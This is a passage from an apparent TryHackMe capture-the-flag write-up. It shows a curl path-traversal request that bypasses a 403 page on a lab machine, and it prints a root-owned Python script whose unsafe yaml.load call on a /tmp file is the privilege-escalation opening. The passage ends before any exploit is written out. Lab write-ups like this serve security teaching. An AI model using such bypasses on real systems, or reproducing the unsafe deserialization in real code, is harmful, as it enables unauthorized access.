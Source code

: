 Used [403Fuzzer](https://github.com/intrudir/403fuzzer) to bypass the 403 pages.

It showed that the page could be bypassed

```bash
curl http://10.10.54.216:8001/403.php/..;/
```

On running this we get

```bash
Glad to see you here.Congo, you bypassed it. 'imsau' is waiting for you somewhere.
```

Let's ssh into the machine

## User Flag

![/assets/images/TryHackMe/en_pass/Untitled%206.png](/assets/images/TryHackMe/en_pass/Untitled%206.png)

We get the user flag.

## Root Flag

While manually enumerating the machine I found scripts on /opt

```bash
-r-xr-xr-x 1 root root 250 Jan 31 19:40 /opt/scripts/file.py
```

```bash
#!/usr/bin/python
import yaml

class Execute():
        def __init__(self,file_name ="/tmp/file.yml"):
                self.file_name = file_name
                self.read_file = open(file_name ,"r")

        def run(self):
                return self.read_file.read()

data  = yaml.load(Execute().run())
```
